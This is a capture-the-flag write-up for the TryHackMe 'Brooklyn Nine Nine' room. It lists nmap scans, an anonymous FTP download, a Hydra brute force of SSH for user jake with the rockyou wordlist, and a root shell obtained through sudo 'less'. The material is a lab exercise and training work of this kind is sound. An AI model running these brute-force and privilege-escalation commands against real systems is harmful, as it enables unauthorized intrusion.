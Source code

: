 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/brooklyn-nine-nine/","tags":["CTF","write-up"]}
---
```



![Pasted image 20250109202038.png|300](/img/user/attachments/Pasted%20image%2020250109202038.png)

---

> [!INFO] Info about Brooklyn Nine Nine
>  This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 21,22,80 -oN nmap_enum
```
## OS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Ubuntu
## Port 22 - SSH
tcp open  ssh     **OpenSSH 7.6p1** Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
## Port 21 - FTP
/tcp open  ftp     **vsftpd 3.0.3**
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.6.196
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|End of status
| ftp-anon: **Anonymous** FTP login allowed (FTP code 230)
|-rw-r--r--    1 0        0             119 May 17  2020 **note_to_jake.txt**
### Anonymous
Login and get the note
```shell
ftp IP
ftp
get note_to_jake.txt 
```

The note:
![Pasted image 20250109202845.png](/img/user/attachments/Pasted%20image%2020250109202845.png)
Take note of possible usernames

> [!tip] Important
> The Jake's password is weak.

## Port 80 - Apache
tcp open  http    **Apache** httpd **2.4.29** ((Ubuntu))
![Pasted image 20250109203331.png](/img/user/attachments/Pasted%20image%2020250109203331.png)

Checking the source code I found something.
> [!tip] Hint
> ![Pasted image 20250109203618.png](/img/user/attachments/Pasted%20image%2020250109203618.png)
### Fuzz
Nothing found

---
# Exploitation
## SSH exploit
Try brute force to SSH based on the fact that the *jake*'s password is weak.
```shell
hydra -f -V -t 64 -l jake -P /usr/share/wordlists/rockyou.txt 10.10.215.156 ssh
```
![Pasted image 20250109204816.png](/img/user/attachments/Pasted%20image%2020250109204816.png)

We can log in as *jake*

> [!check] User flag
> ![Pasted image 20250109205942.png](/img/user/attachments/Pasted%20image%2020250109205942.png)

---
# Privilege escalation
## sudo -l
Check
```shell
sudo -l
```
![Pasted image 20250109205551.png](/img/user/attachments/Pasted%20image%2020250109205551.png)

We can execute *less*, go to *gtfobins* and we can leverage this executing.
```shell
sudo less /etc/profile
!/bin/sh
```


> [!check] Root flag
> ![Pasted image 20250109210030.png](/img/user/attachments/Pasted%20image%2020250109210030.png)

---
